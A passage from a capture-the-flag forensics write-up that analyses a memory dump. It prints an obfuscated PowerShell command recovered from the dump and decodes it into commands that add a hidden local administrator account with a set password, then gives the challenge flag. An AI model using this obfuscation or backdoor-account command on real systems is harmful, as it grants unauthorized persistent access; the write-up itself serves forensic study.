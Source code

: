 I hoped that the changed password is one of those, but that was wrong.

### User password
In the Powershell processes can the following line be found:
```
$ strings memdump/1136.dmp | grep powershell
[...]
powershell $PKjAU=  ") )'dd'+'a/ n'+'i'+'mda'+' sro'+'t'+'artsinimda'+' p'+'uorglacol'+' te'+'n;d'+'d'+'a/ 3r'+'uce5-r3'+'pu'+'5'+' nimda resu '+'te'+'n'(( )'x'+]31[dIlLehs$+]1[diLLehs$ (."; .( $Env:CoMsPeC[4,24,25]-JOIn'')(-join (  gi  vaRiaBlE:pKjAU).valUe[-1 .. - ( (  gi  vaRiaBlE:pKjAU).valUe.leNgth) ] )
[...]
```

Which is an obfuscated command. If we deobfuscate it, it results in the following command:
```
'net user admin 5up3r-5ecur3 /add;net localgroup administrators admin /add'
```

So there was another user created called `admin` with the password `5up3r-5ecur3`.

### Flag
Putting all of that information together, we get the following flag:
```
DUCTF{monkey.doc.ps1_invoke-reflectivepeinjection_emu.dll-kiwi.dll_5up3r-5ecur3}
```
